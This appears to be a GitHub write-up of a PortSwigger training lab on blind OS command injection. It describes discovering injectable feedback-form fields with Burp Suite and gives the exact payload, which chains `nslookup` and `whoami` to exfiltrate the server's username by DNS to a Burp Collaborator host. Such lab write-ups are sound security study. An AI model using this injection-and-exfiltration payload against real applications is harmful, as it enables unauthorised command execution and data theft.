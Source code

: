 # Blind OS Command Injection with Out-of-Band Data Exfiltration

> **Vulnerability Type:** OS Command Injection  
> **Lab URL:** [OS Command Injection Lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

---

## Objective  
Execute the `whoami` command and exfiltrate the output via a DNS request to Burp Collaborator.

---

## Setup  
- **Tools Used:** Burp Suite  
- **Environment Details:** PortSwigger Lab  

---

## Methodology  

### 1. **Discovery**  
- **Initial Observations:**  
  - The only input fields I found were on the user feedback page: Name, Email, Subject, and Message.
- **Testing Approach:**  
  - Submitted feedback and scanned the HTTP request using Burp Scanner. Identified the email, message, and subject parameters as vulnerable to OS command injection.
  - Crafted a payload to cause a DNS interaction with the output being added to the subdomain: `||nslookup+whoami.(subdomain here).oastify.com||`. Received a DNS lookup of type A for the domain name `peter-xDkhEN.(subdomain here).oastify.com`, given the answer to the lab in the subdomain of the DNS lookup `peter-xDkhEN` completing the lab upon submission.

### 2. **Exploitation**  
- **Payload Used:**  
  ```shell
  ||nslookup+whoami.(subdomain here).oastify.com||
  ```
### 3. **Screenshots**
The request causing the target to send a DNS lookup request with the desired information.
![Screenshot 2025-03-05 134832](https://github.com/user-attachments/assets/ab4272d9-96ac-4b94-a4fc-eb3b9a23ed0c)
Burp Collaborator showing the DNS lookup.
![Screenshot 2025-03-05 134820](https://github.com/user-attachments/assets/1e69b813-47d1-44af-be45-1ceec9bce7ad)
